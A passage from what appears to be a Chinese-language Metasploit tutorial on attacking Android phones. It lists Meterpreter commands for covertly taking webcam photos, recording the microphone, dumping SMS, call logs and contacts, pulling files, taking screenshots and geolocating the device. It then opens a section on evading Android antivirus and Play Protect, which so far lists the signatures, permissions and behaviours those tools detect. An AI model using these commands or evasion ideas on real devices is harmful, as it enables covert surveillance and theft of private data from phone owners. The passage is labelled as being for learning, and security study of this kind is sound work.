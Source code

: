 <pre><code class="language-bash"># 查看设备信息
sysinfo

# 获取摄像头照片
webcam_snap

# 打开麦克风录音
record_mic /root/mic.wav

# 获取短信（部分设备需要 root）
dump_sms

# 获取通话记录
dump_calllog

# 获取通讯录
dump_contacts

# 上传文件到手机
upload /root/test.txt /sdcard/test.txt

# 从手机下载文件
download /sdcard/DCIM/Camera/test.jpg /root/

# 截屏
screenshot

# 定位信息（需要开启定位权限）
geolocate

# 启动应用
app_run com.android.chrome

# 查看已安装应用
app_list
</code></pre>
<hr>
<h2>6. Android 免杀思路（学习用）</h2>
<p>Android 的杀软（以及 Google Play Protect）会检测以下内容：</p>
<ol>
<li>
<p><strong>已知木马特征码</strong>（APK 文件中有 msf payload 特征）</p>
</li>
<li>
<p><strong>可疑权限</strong>（如 <code inline="">RECORD_AUDIO</code>、<code inline="">READ_SMS</code>、<code inline="">CAMERA</code>）</p>
</li>
<li>
<p><strong>行为检测</strong>（应用后台连接外网、启动服务）</p>
</li>
</ol>